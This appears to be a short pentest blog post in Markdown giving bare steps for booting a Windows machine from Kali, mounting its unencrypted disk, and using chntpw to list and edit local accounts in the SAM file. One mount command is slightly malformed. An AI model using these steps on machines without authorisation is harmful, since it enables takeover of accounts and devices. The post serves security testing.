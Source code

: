 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - Unencrypted HDD Boot"
date:   2019-07-07 16:06:00 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
  - Active Directory Hacking
tags:
  - HDD Hack
  - Boot unencrypted HDD
---
```


<pre>
- Boot the machine with Kali
- fdisk -l
- look for (HPFS/NTFS/exFat) in the Type column of the about command
- mkdir /mnt/nts
- mount -t -ntfs-3g /dev/sda1 /mnt/nts
- cd /mnt/nts/Windows/System32/config/
- chntpw -h
- chntpw -l sam
- chntpw -i sam
- umount /mnt/nts
- reboot
</pre>
